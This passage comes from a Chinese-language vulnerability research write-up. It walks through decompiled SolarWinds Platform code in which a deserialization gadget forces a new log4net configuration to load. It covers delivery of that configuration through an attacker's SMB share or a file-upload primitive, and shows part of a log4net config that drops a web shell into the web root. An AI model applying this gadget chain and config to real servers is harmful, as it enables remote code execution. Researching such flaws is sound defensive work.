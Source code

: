 ```bash
                try 
                { 
                    XmlDocument xmlDocument = new XmlDocument(); 
                    xmlDocument.Load(fileInfo.FullName); // [4] 
                    XmlNodeList elementsByTagName =  
xmlDocument.GetElementsByTagName("log4net"); // [5] 
                    if (elementsByTagName != null && elementsByTagName.Count > 0) 
                    { 
                        configurations = Log._configurations; 
                        lock (configurations) 
                        { 
                            if (!Log._configurations.Contains(fileInfo.FullName)) 
                            { 
                                XmlConfigurator.ConfigureAndWatch(fileInfo); //  
[6] 
                                Log._configurations.Add(fileInfo.FullName); 
                            } 
                        } 
                    } 
                } 
                catch 
                { 
                } 
            } 
        } 
    } 
}
```

代码段 32 Log.Configure 方法

在\[1\]，代码通过配置文件列表进行迭代。该列表将包含：由输入参数`configFile`定义的路径以及当前进程已加载的其他配置文件。

在\[2\]，从当前路径创建`FileInfo`对象。

在\[3\]，代码检查当前循环迭代中的文件是否已加载。如果是，则调用`continue`，配置文件将不会被加载。如果文件尚未加载，代码流程继续。

在\[4\]，使用`XmlDocument.Load`方法加载配置文件。

在\[5\]，从文件中提取`log4net`标签。

在\[6\]，配置正在加载。

名为 log4net 的标签表明，实际上正在加载新的 log4net 配置（log4net 可以被视为 Java 的 log4j 的等同物）。总的来说，具有反序列化`SolarWinds.IPAM.Storage.Credentials.CredentialInitializer`类的可能性的攻击者可以强制 SolarWinds 进程从文件中加载新的 log4net 配置。

这似乎是一个非常有趣的反序列化小工具，但我们必须考虑如何交付这个文件。我们有两个主要选项：

a) 我们可以提供 UNC 路径，直接从我们的 SMB 服务器加载配置文件。虽然外部 SMB 流量可以被过滤掉，但这样的攻击方法通常在作为位于内部网络的攻击者时有效。由于 SolarWinds Platform 很少暴露在互联网上，我认为这种攻击场景适用于大多数 SolarWinds 实例。

b) 它可以与文件写入基元链接。请注意，路径、扩展名和文件名都未经任何验证，因此我们可以使用合法的文件写入功能（如图像上传）来传递我们的配置文件。

由于 log4net 正在处理日志文件，我开始考虑文件上传基元。我查看了 log4net，找到了以下配置：

```bash
<log4net> 
    ... 
     <appender name="RollingLogFileAppender" 
type="log4net.Appender.RollingFileAppender"> 
        <file value="C:\inetpub\wwwroot\poc.aspx" /> [1] 
        <encoding value="utf-8" /> 
        <appendToFile value="false" /> 
        <rollingStyle value="Size" /> 
        <maxSizeRollBackups value="5" /> 
        <maximumFileSize value="5MB" /> 
        <layout type="log4net.Layout.PatternLayout"> 
        <header type="log4net.Util.PatternString" value="webshell-here" /> [2] 
        <conversionPattern value="" /> [3] 
```